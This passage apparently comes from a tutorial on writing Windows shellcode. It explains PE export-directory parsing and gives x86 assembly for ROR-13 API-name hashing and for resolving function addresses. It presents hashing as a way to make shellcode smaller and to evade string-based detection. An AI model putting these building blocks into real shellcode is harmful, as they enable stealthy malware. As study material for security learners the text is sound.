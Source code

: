 1. First, we find the PE header using the e_lfanew field at offset 0x3C
2. Then, locate the export directory using the offset at PE+0x78
3. From the export directory, extract:
   - The number of exported functions
   - Pointer to the array of function names
   - Pointers to ordinals and function addresses

These offsets are part of the documented PE file format structure, but using them directly in assembly requires familiarity with Windows internals.

### Function Hash Calculation: The ROR-13 Algorithm

Instead of storing full function names (which would make the shellcode larger), we use a hashing algorithm to identify functions:

```assembly
compute_hash:
xor   eax, eax                  # Clear accumulator
cdq                             # Clear EDX (hash value)
cld                             # Clear direction flag

compute_hash_again:
lodsb                           # Load next character into AL
test  al, al                    # Check for null terminator
jz    compute_hash_finished     # If null, we're done
ror   edx, 0x0d                 # Rotate right by 13 bits
add   edx, eax                  # Add character to hash
jmp   compute_hash_again        # Process next character
```

This algorithm:

1. Loads each character of the function name one at a time
2. Rotates the current hash value right by 13 bits
3. Adds the current character value
4. Repeats until reaching the null terminator

The result is a 32-bit hash that, while not cryptographically secure, provides sufficient uniqueness for function identification. Using function hashes instead of names makes shellcode significantly smaller and more difficult to detect through simple string scanning.

### Finding the Function Address: Export Directory Navigation

After calculating a hash, we check if it matches our target function:

```assembly
find_function_compare:
cmp   edx, [esp+0x24]           # Compare calculated hash with target
jnz   find_function_loop        # If no match, try next function
mov   edx, [edi+0x24]           # Get ordinals table RVA
add   edx, ebx                  # Convert to address
mov   cx,  [edx+2*ecx]          # Get function ordinal
mov   edx, [edi+0x1c]           # Get function addresses table RVA
add   edx, ebx                  # Convert to address
mov   eax, [edx+4*ecx]          # Get function RVA
add   eax, ebx                  # Convert to actual address
mov   [esp+0x1c], eax           # Store in EAX position (for POPAD)
```
